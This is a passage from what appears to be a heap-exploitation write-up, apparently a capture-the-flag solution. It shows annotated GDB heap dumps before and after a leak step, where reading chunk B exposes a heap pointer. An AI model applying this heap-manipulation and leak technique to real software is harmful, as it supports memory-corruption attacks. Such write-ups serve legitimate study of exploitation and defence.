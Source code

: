 ```
0x56257ccda6d0:	0x4343434343434343	0x4343434343434343
0x56257ccda6e0:	0x4343434343434343	0x4343434343434343
0x56257ccda6f0:	0x4343434343434343	0x4343434343434343
0x56257ccda700:	0x4343434343434343	0x4343434343434343
0x56257ccda710:	0x4343434343434343	0x4343434343434343
0x56257ccda720:	0x0000000000000000	0x0000000000000081
0x56257ccda730:	0x4747474747474747	0x4747474747474747
0x56257ccda740:	0x4747474747474747	0x4747474747474747
0x56257ccda750:	0x4747474747474747	0x4747474747474747
0x56257ccda760:	0x4747474747474747	0x4747474747474747
0x56257ccda770:	0x4747474747474747	0x4747474747474747
0x56257ccda780:	0x4747474747474747	0x4747474747474747
0x56257ccda790:	0x4747474747474747	0x4747474747474747
0x56257ccda7a0:	0x0000000000000000	0x0000000000000081
0x56257ccda7b0:	0x5252525252525252	0x5252525252525252
0x56257ccda7c0:	0x0000000000000330	0x0000000000000060
0x56257ccda7d0:	0x0000000000000000	0x0000000000000000
0x56257ccda7e0:	0x0000000000000000	0x0000000000000000
0x56257ccda7f0:	0x0000000000000000	0x0000000000000000
0x56257ccda800:	0x0000000000000000	0x0000000000000000
0x56257ccda810:	0x0000000000000000	0x0000000000000000
0x56257ccda820:	0x0000000000000000	0x00000000000207e1
```


now all there is left to do is to read the contents of chunk B and we get the leak

```
display(0)
```

## state of the heap after the leak

```
0x56257ccda290:	0x0000000000000000	0x0000000000000021 <--- chunk D free
0x56257ccda2a0:	0x0000000000000000	0x000056257ccda010
0x56257ccda2b0:	0x0000000000000000	0x0000000000000051 <--- chunk E free
0x56257ccda2c0:	0x0000000000000000	0x000056257ccda010
0x56257ccda2d0:	0x0000000000000000	0x0000000000000000
0x56257ccda2e0:	0x0000000000000000	0x0000000000000000
0x56257ccda2f0:	0x0000000000000000	0x0000000000000000
0x56257ccda300:	0x0000000000000000	0x00000000000000a1 <--- chunk F free
0x56257ccda310:	0x0000000000000000	0x000056257ccda010
0x56257ccda320:	0x0000000000000000	0x0000000000000000
0x56257ccda330:	0x0000000000000000	0x0000000000000000
0x56257ccda340:	0x0000000000000000	0x0000000000000000
0x56257ccda350:	0x0000000000000000	0x0000000000000000
0x56257ccda360:	0x0000000000000000	0x0000000000000000
0x56257ccda370:	0x0000000000000000	0x0000000000000000
0x56257ccda380:	0x0000000000000000	0x0000000000000000
0x56257ccda390:	0x0000000000000000	0x0000000000000000
0x56257ccda3a0:	0x0000000000000000	0x00000000000000f1 <--- chunk we used to push down the pointers size 0xe0
0x56257ccda3b0:	0x0000000000000000	0x000056257ccda010
0x56257ccda3c0:	0x000056257ccda3a0	0x000056257ccda3a0
0x56257ccda3d0:	0x0000000000000000	0x0000000000000000
0x56257ccda3e0:	0x0000000000000000	0x0000000000000000
0x56257ccda3f0:	0x0000000000000000	0x0000000000000000
0x56257ccda400:	0x0000000000000000	0x0000000000000000
0x56257ccda410:	0x0000000000000000	0x0000000000000211 <--- chunk B
0x56257ccda420:	0x4242424242424242	0x4242424242424242
0x56257ccda430:	0x4242424242424242	0x4242424242424242
0x56257ccda440:	0x4242424242424242	0x4242424242424242
0x56257ccda450:	0x4242424242424242	0x4242424242424242
0x56257ccda460:	0x4242424242424242	0x4242424242424242
```